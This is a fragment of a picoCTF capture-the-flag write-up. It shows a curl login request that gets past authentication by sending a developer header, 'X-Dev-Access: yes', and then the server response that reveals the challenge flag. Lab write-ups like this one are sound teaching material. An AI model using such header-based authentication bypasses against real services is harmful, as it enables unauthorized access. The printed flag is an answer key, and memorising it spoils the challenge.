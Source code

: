 or you can send req using curl like this

```zsh
 zsh > curl -s -X POST -H "X-Dev-Access: yes" -H "Content-Type: application/json" \
  -d '{"email":"ctf-player@picoctf.org","password":"test"}' \
  http://amiable-citadel.picoctf.net:59118/login

{"success":true,"email":"ctf-player@picoctf.org","firstName":"pico","lastName":"player","flag":"picoCTF{brut4_f0rc4_1a386e6f}"}%  
```

---

# FLAG: picoCTF{brut4_f0rc4_1a386e6f}
